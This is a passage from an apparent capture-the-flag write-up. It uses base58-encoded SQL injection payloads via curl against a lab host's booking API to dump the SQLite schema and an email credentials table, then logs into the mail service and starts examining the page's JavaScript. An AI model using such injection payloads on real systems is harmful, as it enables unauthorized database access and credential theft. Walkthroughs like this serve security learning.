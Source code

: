 Now that we know the DBMS is SQLite, we can start extracting the database schemas.

```console
$ curl -s http://10.10.131.31/api/booking-info?booking_key=$(echo -n "booking_id:3380185' UNION SELECT GROUP_CONCAT(sql, '\n'),2 FROM sqlite_schema;-- -" | base58) | jq -r .room_num
CREATE TABLE email_access (guest_name TEXT, email_username TEXT, email_password TEXT)
CREATE TABLE reservations (guest_name TEXT, room_num INTEGER, days_remaining INTEGER)
CREATE TABLE bookings_temp (booking_id TEXT, room_num TEXT, days TEXT)
```
{: .wrap }

`email_access` seems interesting. By dumping it, we get a set of credentials.

```console
$ curl -s http://10.10.131.31/api/booking-info?booking_key=$(echo -n "booking_id:3380185' UNION SELECT GROUP_CONCAT(guest_name || ':' || email_username || ':' || email_password, '\n'),2 FROM email_access;-- -" | base58) | jq -r .room_num
Gully Foyle:NEVER LOGGED IN:
Gabriel Syme:NEVER LOGGED IN:
Oberst Enzian:NEVER LOGGED IN:
Paul Denton:pdenton:[REDACTED]
Smilla Jasperson:NEVER LOGGED IN:
Hippolyta Hall:NEVER LOGGED IN:
```
{: .wrap }

### Enumerating the Messages

Using the credentials we discovered, we are able to login at `http://10.10.131.31:4346/` and access the `http://10.10.131.31:4346/mail` endpoint.

![Web 4346 Mail](web_4346_mail.webp){: width="1200" height="600" }

Checking the message from the `JReyes` user, we get the web flag.

![Web 4346 Mail Flag](web_4346_mail_flag.webp){: width="530" height="570" }

## User Flag

### Shell as gilbert

Checking the source code for `http://10.10.131.31:4346/mail`, we notice an interesting script at the end.

![Web 4346 Mail Source](web_4346_mail_source.webp){: width="1200" height="600" }

The first part is responsible for fetching and displaying the messages.

```js
let elems = document.querySelectorAll(".email_list .row");
for (var i = 0; i < elems.length; i++) {
    elems[i].addEventListener("click", (e => {
        document.querySelector(".email_list .selected").classList.remove("selected"), e.target.parentElement.classList.add("selected");
        let t = e.target.parentElement.getAttribute("data-id"),
            n = e.target.parentElement.querySelector(".col_from").innerText,
            r = e.target.parentElement.querySelector(".col_subject").innerText;
        document.querySelector("#from_header").innerText = n, document.querySelector("#subj_header").innerText = r, document.querySelector("#email_content").innerText = "", fetch("/api/message?message_id=" + t).then((e => e.text())).then((e => {
            document.querySelector("#email_content").innerText = atob(e)
        }))
    })), document.querySelector(".dialog_controls button").addEventListener("click", (e => {
        e.preventDefault(), window.location.href = "/"
    }))
}
```